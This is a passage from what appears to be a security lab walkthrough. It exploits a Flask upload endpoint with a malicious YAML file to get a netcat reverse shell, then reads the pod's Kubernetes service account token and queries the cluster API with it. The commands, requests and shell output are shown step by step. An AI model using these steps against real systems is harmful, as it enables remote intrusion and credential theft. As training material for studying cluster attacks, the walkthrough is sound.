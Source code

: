 ```bash
nc -l 1337
```

* In the previous tab, post the malicious `reverse_shell.yml`.

```bash
http --form POST $NGFLASK/upload file@reverse_shell.yml
```

It should come back with a response similar to the one below

```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Thu, 03 Jan 2019 14:38:49 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```

On the tab running netcat, you should have gotten a netcat reverse TCP shell! The output on the tab running netcat will be similar to the one below.

```
nc -l 1337
/bin/sh: can't access tty; job control turned off
/app #
```

Now you can interact with your target app and backend K8s cluster

**NOTE: Do NOT use the `clear` or `Command/Ctrl+C` key. You will lose access to the shell and will have to re-do Step 5**

### Pivoting to K8s cluster

##### Step 6:

* In the reverse shell, navigate within the pod to fetch `Service Account` token.

```bash
cd /run/secrets/kubernetes.io/serviceaccount

export TOKEN=$(cat token)
```

###### We are now going to masquerade with the cluster-admin's token.

* Start interacting with K8s API. To get a JSON dump of all pods running, run

```bash
curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure
```
